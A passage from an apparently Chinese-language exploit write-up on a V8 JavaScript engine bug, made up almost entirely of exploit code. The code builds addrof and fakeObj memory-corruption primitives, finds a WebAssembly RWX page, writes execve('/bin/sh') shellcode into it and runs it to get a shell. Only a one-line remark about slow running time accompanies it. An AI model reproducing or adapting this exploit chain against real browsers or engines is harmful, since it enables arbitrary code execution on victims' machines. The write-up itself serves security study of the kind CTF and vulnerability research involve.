      if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}

function addrof(obj) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    return obj.b${p1}.x1;
  }
`);


  let values = [];
  values[p1] = { x1: 1.1, x2: 1.2 };
  values[p2] = { y: obj };

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    if (res != 1.1) {
      print(`[+] Object Address: ${Int64.fromDouble(res).toString()}`);
      return res;
    }
  }
  throw "[!] AddrOf Primitive Failed"
}

function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i < 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}

var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
print("[+] check whether vulnerability exists");
check_vul();
print("[+] Finding Overlapping Properties...");
findOverlapping();
print(`[+] Properties b${p1} and b${p2} overlap!`);
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
give_me_a_clean_newspace();
print("[+] get address of RWX Page");
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print(`[+] rwx addr: ${code_addr}`);
fakeObj(mem, code_addr.asDouble());
print("[+] write shellcode");
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i < 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
print("[+] GetShell");
f();
```

exp运行结果如下图，因为有大量循环，所以运行稍慢。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231119200953-8c0df430-86d4-1.png)
